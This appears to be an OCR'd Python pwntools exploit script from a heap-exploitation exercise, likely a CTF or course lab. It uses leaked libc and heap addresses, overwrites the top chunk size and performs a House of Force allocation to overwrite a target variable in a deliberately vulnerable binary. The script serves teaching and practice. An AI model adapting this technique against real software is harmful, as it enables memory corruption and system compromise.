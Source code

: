 ```python
# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# =-=-=- EXAMPLE -=-=-=

# The "heap" variable holds the heap start address.
info(f"heap: 0x{heap:02x}")

# Program symbols are available via "elf.sym.<symbol name>".
info(f"target: 0x{elf.sym.target:02x}")

# The malloc() function chooses option 1 from the menu.
# Its arguments are "size" and "data".
malloc(24, b"Y"*24 + b"\xff"*8)

# Note - heap + 0x20 points towards the top chunk (8 bytes before its size metadata, 16 byts before its content)
distance = delta(heap + 0x20, elf.sym.target - 0x20)

# request the large chunk
malloc(distance, b"A")

# override the target address
malloc(24, b"B"*24)

# The delta() function finds the "wraparound" distance between two addresses.
info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")

# =============================================================================

io.interactive()
```
